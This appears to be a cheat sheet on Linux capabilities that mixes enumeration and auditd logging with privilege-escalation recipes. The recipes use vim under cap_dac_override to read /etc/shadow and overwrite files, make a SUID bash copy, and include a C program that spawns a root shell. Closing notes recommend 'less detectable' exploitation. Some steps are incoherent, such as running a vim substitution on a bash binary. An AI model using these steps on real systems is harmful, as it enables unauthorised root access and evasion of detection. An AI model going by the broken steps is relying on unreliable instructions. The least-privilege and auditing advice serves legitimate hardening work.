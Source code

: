 ### Find binaries with capabilities
```sh
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

### Set cap_net_bind_service capability (Allows binding to privileged ports)
```sh
sudo setcap cap_net_bind_service=+ep /usr/bin/my_program
```

### Clear capabilities
```sh
sudo setcap -r /usr/bin/my_program

```
### List capabilities of a specific file
```sh
getcap /usr/bin/my_program
```

### Using cap_dac_override to read a normally restricted file (Dangerous, be very careful)
```sh
/usr/bin/vim.basic /etc/shadow
```

### Using cap_dac_override to overwrite a file
```bash
echo "evil code" > /tmp/evil.sh
chmod +x /tmp/evil.sh
echo -e ':%s/original content/malicious content/\nwq!' | /usr/bin/vim.basic -es /path/to/important/file # Very dangerous
```

### Overwriting an SUID binary
```bash
cp /bin/bash /tmp/suid_bash
chmod u+s /tmp/suid_bash
echo -e ':%s/original content/malicious content/\nwq!' | /usr/bin/vim.basic -es /tmp/suid_bash # Very dangerous
```

### Using cap_setuid to change user ID (Requires compiled C program)
Save the following code as `setuid.c`:
```c
#include <unistd.h>
#include <sys/capability.h>
#include <stdio.h>

int main() {
    cap_value_t cap_list[1];
    cap_list[0] = CAP_SETUID;
    cap_t caps = cap_get_proc();
    cap_set_flag(caps, CAP_EFFECTIVE, 1, cap_list, CAP_SET);
    cap_set_proc(caps);
    cap_free(caps);
    setuid(0); // Set UID to root
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
Compile and run:
```bash
gcc setuid.c -o setuid -lcap
sudo setcap cap_setuid+ep ./setuid
./setuid
```

### Using cap_sys_admin to mount a file system
```bash
mkdir /tmp/mnt
dd if=/dev/zero of=/tmp/loopback.img bs=1M count=10
mkfs.ext4 /tmp/loopback.img
sudo setcap cap_sys_admin+ep /bin/mount
mount /tmp/loopback.img /tmp/mnt -o loop
sudo setcap cap_sys_admin+ep /bin/umount
umount /tmp/mnt
```

### Using auditd to log capability usage
Install and configure auditd:
```bash
sudo apt install auditd # or yum install auditd, etc.
sudo systemctl enable auditd
sudo systemctl start auditd
sudo auditctl -a always,exit -F arch=b64 -S capset,setcap,getcap -k capabilities
```
View logs:
```bash
sudo ausearch -k capabilities -ts recent
```

### Checking bounding sets
```bash
cat /proc/self/status | grep CapBnd
```

### Checking effective, permitted, and inheritable sets
```bash
cat /proc/self/status | grep Cap
```

### Checking the capabilities of a running process
```bash
sudo cat /proc/$(pidof processname)/status | grep Cap
```

### **Key Concepts:**

- **Fine-grained Privileges:** Capabilities allow for more specific control over permissions than the traditional user/group model.
- **Reduced Attack Surface:** By granting only necessary capabilities, you limit the potential damage from compromised processes.
- **Vulnerabilities:**
    - Over-privileging: Giving processes more capabilities than they need.
    - Inadequate Sandboxing: Allowing capable processes to interact with untrusted data or processes.
    - Misconfiguration: Incorrectly setting or understanding capability values.
- **`setcap` Command:** Used to assign capabilities to executables.
- **Capability Values:**
    - `=` (clear capabilities)
    - `+ep` (effective and permitted)
    - `+ei` (effective and inheritable)
    - `+p` (permitted)
- **Dangerous Capabilities:**
    - `cap_sys_admin`: Broad administrative privileges.
    - `cap_setuid`: Change user ID.
    - `cap_setgid`: Change group ID.
    - `cap_dac_override`: Bypass file permission checks.
- **Enumeration:** `find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;`
- **Exploitation Example:** Using `cap_dac_override` to modify `/etc/passwd` and gain root access.

**Important Considerations and Enhancements:**

- **Security Best Practices:**
    - Principle of Least Privilege: Grant only the necessary capabilities.
    - Regular Audits: Review capability assignments to ensure they are still appropriate.
    - Strong Sandboxing: Isolate capable processes as much as possible.
    - Use of tools like `auditd` to log capability usage.
- **Capability Sets:** Understand the difference between permitted, effective, inheritable, and bounding capability sets.
- **Bounding Set:** The bounding set limits the capabilities that a process can acquire, even if they are permitted. This is a crucial security feature.
- **File Capabilities vs. Thread Capabilities:** Understand how capabilities are applied to files and threads.
- **Namespaces:** Combine capabilities with namespaces (e.g., user namespaces) for even stronger isolation.
- **Modern Distributions:** Modern Linux distributions often have enhanced security features that mitigate some capability-related risks, but careful configuration is still essential.
- **Real World Exploits:** Research real world exploits that utilize linux capabilities. This will enhance your understanding of how they can be used maliciously.
- **Alternative to modifying /etc/passwd:** While the example given works, it is very dangerous, and easily detectable. There are many other ways of exploiting `cap_dac_override` that are less detectable. For example, overwriting a SUID binary.
- **Capabilities and containers:** Capabilities are used extensively in containerization technologies like Docker and Kubernetes. Understanding them is vital for container security.



